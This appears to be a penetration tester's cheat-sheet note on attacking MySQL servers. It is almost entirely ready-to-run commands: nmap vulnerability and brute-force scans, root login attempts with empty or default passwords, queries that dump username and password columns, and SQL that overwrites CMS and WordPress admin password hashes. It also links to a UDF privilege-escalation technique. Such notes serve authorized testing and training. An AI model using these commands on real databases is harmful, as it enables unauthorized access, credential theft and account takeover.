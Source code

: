 #### nmap
```bash - kali
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse $TARGET -p 3306
```

#### wp-config.php file
```bash - kali
cat wp-config.php
```

#### Remote login
```bash - kali
mysql --host=$TARGET -u root -P 3306 -p
```

#### Local login
```bash - kali
mysql -h localhost -u root -P 3306 -p
```

#### passwords
Try with empty password or:

```bash - kali
root
```

or brute:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against MySQL]]

```SQL
show databases;
```

```SQL
use <DATABASE>;
```

```SQL
show tables;
```

```SQL
describe <TABLE>;
```

```SQL
select * from <TABLE>;
```

or

```SQL
select usernames,passwords from <TABLE>;
```

![[Pasted image 20220126101801.png]]

#### Change password
```SQL
update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin';
```

**cms_siteprefs would be found under show tables;**

![[Pasted image 20220126102546.png]]

or

```bash - kali
echo -n 'admin' | md5sum
```

==21232f297a57a5a743894a0e4a801fc3==

```SQL
update cms_users SET password='21232f297a57a5a743894a0e4a801fc3' WHERE username='admin';
```

![[Pasted image 20220126101821.png]]

#### MYSQL UDF 4.x/5.0
[https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

```bash - kali
nmap --script=mysql-brute $TARGET
```

```bash - kali
mysql -u username -h $TARGET -p
```

```bash - kali
mysql --host=127.0.0.1 --port=13306 --user=wp -p
```

#### MySQL to Wordpress password

```bash - kali
mysql -u root -h $TARGET -p
```

Try with empty password, also try with password:

```bash - kali
root
```

```bash - kali
select * from users
```

```bash - kali
UPDATE 'users' SET 'pass'=MD5('password') WHERE 'user_login' = 'admin';
```
